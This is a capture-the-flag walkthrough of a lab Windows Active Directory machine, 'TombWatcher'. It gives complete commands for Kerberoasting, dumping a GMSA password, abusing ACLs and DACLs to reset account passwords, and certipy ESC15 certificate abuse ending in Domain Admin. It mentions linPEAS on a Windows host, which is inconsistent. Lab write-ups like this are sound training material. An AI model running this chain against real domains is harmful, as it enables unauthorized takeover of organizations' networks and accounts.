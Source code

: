 # TombWatcher

```
Difficulty: Medium
Operating System: Windows
Hints: Active Directory, Kerberoasting, ACL Abuse, GMSA, DACL Abuse, Cert-based Escalation

```

## Initial Enumeration
Running nmap scan (TCP) on the target shows the following results:

```
nmap TombWatcher.htb -sV -A
PORT      STATE SERVICE         VERSION
53/tcp    open  domain          Simple DNS Plus
80/tcp    open  http            Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec    Microsoft Windows Kerberos
135/tcp   open  msrpc           Microsoft Windows RPC
139/tcp   open  netbios-ssn     Microsoft Windows netbios-ssn
389/tcp   open  ldap            Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http      Microsoft Windows RPC over HTTP
636/tcp   open  ssl/ldap        Microsoft Windows Active Directory LDAP over TLS
3268/tcp  open  ldap            Microsoft Windows AD Global Catalog
3269/tcp  open  ssl/ldap        Microsoft Windows AD GC over TLS
5985/tcp  open  http            Microsoft HTTPAPI httpd 2.0 (WinRM)
Domain: tombwatcher.htb
Hostname: DC01.tombwatcher.htb

```

Add to /etc/hosts:
10.10.11.72  DC01.tombwatcher.htb TombWatcher.htb
Foothold
The initial credentials provided are: henry : H3nry_987TGV!

User
Method 1 - Kerberoasting with ACL Abuse (from henry to alfred)
Recon as Henry: Use bloodhound-python to gather Active Directory information.

Bash
```
bloodhound-python -u henry -p 'H3nry_987TGV!' -d tombwatcher.htb -ns 10.10.11.72 -c All --zip
```
This reveals that the Alfred user has WriteSPN rights, which is exploitable via Kerberoasting.

Kerberoasting: Use targetedKerberoast.py to add a Service Principal Name (SPN) to Alfred and dump the Kerberos TGS hash.

Bash
```
python targetedKerberoast.py -v -d tombwatcher.htb -u henry -p 'H3nry_987TGV!'

```
Crack Hash: Crack the dumped hash using John the Ripper with a wordlist.

Bash

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
The password for Alfred is basketball.

```
Method 2 - GMSA Password Dump (from alfred to ansible_dev$, then SAM and john)
Recon as Alfred: Re-run bloodhound-python with Alfred's newly acquired credentials.

Bash

```
bloodhound-python -u alfred -p 'basketball' -d tombwatcher.htb -ns 10.10.11.72 -c All --zip

```
No immediate Domain Admin path is found, but it's identified that the Infrastructure group is modifiable.

Infrastructure Group Escalation: Add Alfred to the Infrastructure group using bloodyAD.

Bash

```
bloodyAD --host '10.10.11.72' -d tombwatcher.htb -u alfred -p 'basketball' add groupMember INFRASTRUCTURE alfred
```

GMSA Password Dump: Use gMSADumper.py to find and dump Group Managed Service Account (GMSA) blobs.

Bash

python gMSADumper.py -u alfred -p basketball -d tombwatcher.htb
This shows that the Infrastructure group can read the password for ansible_dev$.

Change Passwords via GMSA: Utilize bloodyAD to change the passwords for the SAM and john accounts by leveraging the ansible_dev$ GMSA account's dumped credentials.

Bash

```
bloodyAD --host '10.10.11.72' -d tombwatcher.htb -u 'ansible_dev$' -p ':4b21348ca4ay…' set password SAM 'jhvc@4569@'
```
```
bloodyAD --host '10.10.11.72' -d tombwatcher.htb -u SAM -p 'jhvc@4569@' set password john 'jhvc@4569@'

```
This grants access to the john account, and user.txt can be retrieved.

## Root
Once we log in as john, following our standard approach, we can run linPEAS looking for possible privilege escalation vectors. After we run linPEAS, we can notice a path for Active Directory Certificate Services (ADCS) abuse.

DACL Abuse for OU Takeover (from john to cert_admin)
DACL Abuse: Grant john FullControl over the OU=ADCS,DC=TOMBWATCHER,DC=HTB using impacket-dacledit.

Bash
```
impacket-dacledit \
  -action write \
  -rights FullControl \
  -inheritance \
  -principal john \
  -target-dn 'OU=ADCS,DC=TOMBWATCHER,DC=HTB' \
  tombwatcher.htb/SAM:'jhvc@4569@'
```

This gives john control over the ADCS Organizational Unit.

Restore & Change cert_admin Password: Inside an Evil-WinRM session as john, identify and restore the deleted cert_admin account, enable it, and reset its password.

PowerShell
```
Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects
Restore-ADObject -Identity 938182c3-bf0b-410a-9aaa-45c8e1a02ebf
Enable-ADAccount -Identity cert_admin
Set-ADAccountPassword -Identity cert_admin -Reset -NewPassword (ConvertTo-SecureString "jhvc@4569@" -AsPlainText -Force)
```

Then, confirm the password change for cert_admin using bloodyAD.

Bash

```

bloodyAD --host '10.10.11.72' -d tombwatcher.htb \
  -u john -p 'jhvc@4569@' set password cert_admin 'jhvc@4569@'

```
The cert_admin account is now controlled.

Certificate-Based Privilege Escalation (from cert_admin to Administrator)
Cert Enumeration: Use certipy to enumerate the Certificate Authority (CA) and available certificate templates, looking for vulnerabilities.

Bash
```
certipy find -u cert_admin -p "jhvc@4569@" -dc-ip 10.10.11.72 -vulnerable
```
This reveals the WebServer template with "Enrollee supplies subject: True" and an "ESC15 vulnerability detected".

Plan A (ESC15 / ESC1): Request a certificate with Client Authentication and an Administrator UPN using certipy.

Bash
```
certipy req \
  -u 'cert_admin@tombwatcher.htb' -p 'jhvc@4569@' \
  -dc-ip '10.10.11.72' \
  -ca 'tombwatcher-CA-1' \
  -template 'WebServer' \
  -upn 'administrator@tombwatcher.htb' \
  -application-policies 'Client Authentication'
```
Then, use the generated PFX file to authenticate as the Administrator and obtain a shell.

Bash
```
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.72 -ldap-shell
```
From here, the Administrator's password can be changed, leading to full Domain Administrator access.

Plan B (Certificate Request Agent Attack - Alternative): If Plan A is not feasible, obtain an Agent certificate.

Bash
```
certipy req \
  -u 'cert_admin@tombwatcher.htb' -p 'jhvc@4569@' \
  -dc-ip '10.10.11.72' -ca 'tombwatcher-CA-1' \
  -template 'WebServer' \
  -application-policies 'Certificate Request Agent'
```
Then, impersonate the Administrator by requesting a user certificate on their behalf.

Bash
```
certipy req \
  -u 'cert_admin@tombwatcher.htb' -p 'jhvc@4569@' \
  -dc-ip '10.10.11.72' -ca 'tombwatcher-CA-1' \
  -template 'User' \
  -pfx cert_admin.pfx \
  -on-behalf-of 'tombwatcher\Administrator'
```
Finally, authenticate using the on-behalf-of certificate to retrieve the Administrator's TGT, ccache, or NT hash, granting Domain Administrator privileges.

Bash
```
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.72
```

## Summary:

🏁 Summary of Attack Chain

```

| Step | User / Access     | Technique Used                   | Result                                   |
| :--- | :---------------- | :------------------------------- | :--------------------------------------- |
| 1    | henry             | BloodHound                       | Found SPN write rights on Alfred         |
| 2    | henry → Alfred    | Kerberoast (SPN abuse)           | Cracked Alfred’s password                |
| 3    | alfred            | BloodHound                       | Found Infrastructure group modifiable    |
| 4    | alfred            | bloodyAD                         | Added Alfred to Infrastructure           |
| 5    | alfred            | gMSADumper                       | Dumped GMSA blob                         |
| 6    | ansible_dev$      | GMSA Abuse & bloodyAD            | Changed SAM, john, user.txt              |
| 7    | john              | impacket-dacledit                | Gained FullControl on ADCS OU            |
| 8    | john              | Restore ADObject & bloodyAD      | Took over cert_admin account             |
| 9    | cert_admin        | certipy                          | Enumerated CA, WebServer template (ESC15)|
| 10   | cert_admin → DA   | cert-based escalation (ESC15/ESC1/B) | Full domain admin access (Administrator) |

```